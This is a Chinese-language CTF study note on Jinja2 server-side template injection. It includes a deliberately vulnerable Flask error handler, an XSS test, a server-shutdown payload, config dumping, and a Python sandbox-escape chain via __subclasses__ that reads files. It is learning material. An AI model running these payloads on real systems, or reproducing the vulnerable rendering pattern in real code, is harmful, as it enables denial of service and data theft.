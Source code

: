 # SQL注入，SSTI注入等备忘

之前做ctf题目的时候第一次遇到SSTI注入这个知识点，一直也没静下心来好好地总结一下。

最典型的一个例子如下：

```python
@app.errorhandler(404)
def page_not_found(e):
    template = '''{%% extends "layout.html" %%}
{%% block body %%}
    <div class="center-content error">
        <h1>Oops! That page doesn't exist.</h1>
        <h3>%s</h3>
    </div>
{%% endblock %%}
''' % (request.url)
    return render_template_string(template), 404
```
直接将用户的输入渲染到模板中
如果我们提交`<script>alert(42)</script>`就会触发xss

当然也可以做一点好玩的，比如{{1+1}}这时候页面就会显示2了

看到很多文章在讲解SSTI的时候，都会结合python沙箱逃逸，其实jinja模板就是一个典型的沙箱，所以python的沙箱逃逸的姿势都可以照搬过来

但是在这之前，我们必须知道jinja模板中的上下文，也就是哪些是我们可以利用的

## jinja模板
三种语句不用说了

获取变量的属性——对应python的`__getitem__`方法
下面两条语句是等效的
```python
{{ foo.bar }}
{{ foo['bar'] }}
```

文档中对这两种方式还做了一些补充
> foo.bar方式：
> * check for an attribute called bar on foo (getattr(foo, 'bar'))
> * if there is not, check for an item 'bar' in foo (foo.__getitem__('bar'))
> * if there is not, return an undefined object.


> foo['bar']方式：
> *check for an item 'bar' in foo. (foo.__getitem__('bar'))
> *if there is not, check for an attribute called bar on foo. (getattr(foo, 'bar'))
> *if there is not, return an undefined object.


### 过滤器
这是jinja模板中最重要的一个特性

比如 `{name|striptags|title}`会将name这个变量中的所有html标签都去除掉并且调用`title()`函数
是不是很像管道？

来看几个过滤器

* escape()将&, <, >, ‘, and ”  这些字符转化为html实体编码
* join(value, d=u'', attribute=None)   [1, 2, 3]|join('|') => 1|2|3
* `safe`(*value*) 这个就有点危险了



## 上下文

### request

通过`request.environ`是一个与服务器环境相关的对象

`{{ request.environ['werkzeug.server.shutdown']() }}` 这个payload会直接让服务器宕机



### config

`{{ config.items() }}`当前配置对象



## python沙箱逃逸

python2环境
```python
In [1]: ''.__class__.__mro__ 
Out[1]: (str, basestring, object)

In [2]: ''.__class__
Out[2]: str   # 获取当前对象所属的类


In [3]: ''.__class__.__mro__[1]
Out[3]: basestring

In [4]: ''.__class__.__mro__[2]
Out[4]: object

In [5]: ''.__class__.__mro__[2].__subclasses__()  #获取道内置的类？
[type,
 weakref,
 weakcallableproxy,
 weakproxy,
 int,
 basestring,
 bytearray,
 list,
 NoneType,
 NotImplementedType,
 ...
 
 ]
 
 # 我们可以通过一次遍历找到我们想要的类
In [8]: ''.__class__.__mro__[2].__subclasses__()[40]
Out[8]: file

# 有了file类就可以读文件了

In [13]: ''.__class__.__mro__[2].__subclasses__()[40]('./test.txt').read()
Out[13]: '1111111111111'

# 像一颗树一样，先到达最顶端object之后再不断往下

# 内建函数与内建变量
In [16]: dir(__builtin__)
Out[16]:
['ArithmeticError',
 'AssertionError',
 'AttributeError',
 'BaseException',
 'BufferError',
 'BytesWarning',
 'DeprecationWarning',
 ...]

 
```

